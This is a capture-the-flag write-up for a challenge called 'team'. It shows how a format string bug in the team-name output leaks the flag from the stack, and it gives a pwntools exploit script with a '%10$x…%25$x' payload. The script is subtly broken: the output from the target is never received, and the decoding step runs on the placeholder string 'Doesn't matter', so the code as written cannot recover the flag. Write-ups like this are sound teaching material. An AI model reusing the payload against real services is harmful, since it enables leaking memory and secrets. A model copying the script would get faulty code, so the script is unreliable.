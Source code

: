 # team 600pts 

##Overview
To start, disassembling the program reveals a format string
vulnerability when it prints the team name.
After much trial and error and not doing anything right at all,
I noticed that using many %x.%x.%x.%x.....%x would essentially 
dump the stack for you. Because I had a poor flag locally,
(a flag.txt file is needed in the same directory to do this chal)
that wasn't extrememly noticable, it took me a long time to realize
the flag was being dumped to the terminal. It was just in little/big 
endian (don't remember which is which) and hex. So copy the values 
from the output, reverse each byte, convert to ascii and you've got 
the flag. 

By observing where your flag was located in the outputted data, you 
could the flag began 10 words from the begginning of the dump. 
Therefore, using %10$x would cause the 10th value on the stack to be 
printed. We now can hardcode exactly where the flag will be. The flag 
is printed in hex, there are 256 bits in the flag (i.e. 32 bytes or 64 
hex characters) so we will need to use 16 %x's. 

##Code
Import pwn tools, set the context appropriately and connect to 
the remote service. If this is being run on a linux computer, 
it will work locally if in the same directory as the team
executable. Pwn tools will run the process and attach it to 
a port, simulating the contest environment quite nicely.
```python
from pwn import *
context(arch='i386', os='linux')

# Challenge originally hosted at hack.bckdr.in 8004
if 'HOST' in args:
    r = remote(args['HOST'], int(args['PORT']))
else:
    l = listen(0)
    l.spawn_process(['./team'])
    r = remote('localhost', l.lport)
```
Next we construct a teamname that will display the 16 words off the stack
that contain the flag. We send this as the teamname and can then 
send anything as the flag.
```python
teamname = "%10$x.%11$x.%12$x.%13$x.%14$x.%15$x.%16$x.%17$x.%18$x.%19$x.%20$x.%21$x.%22$x.%23$x.%24$x.%25$x"

flag = "Doesn't matter"

r.recvuntil("Enter teamname:")

print "[*] Sending teamname"
r.send(teamname + "\n")

r.recvuntil("Enter flag:")
print "[*] Sending flag"
r.send(flag + "\n")
```
We then receive the data containing the flag and 
strip away the unnecessary parts.
```python
f = flag.replace(" ", "").replace(":", "").split(".")
```
The values are backwards on the stack due to
endianness. We can use pwntools' p32() here 
to get the flag values. 
We could optionally 
hex decode the string and then invert it like
so: ```python flag += str(i.decode("hex")[::-1])```
but I like pwntools so we'll use that.
```python
flag = ""
for i in f:
	flag += str(p32(int(i, 16)))

print "[*] Flag: " + flag
# RyanAiden
```

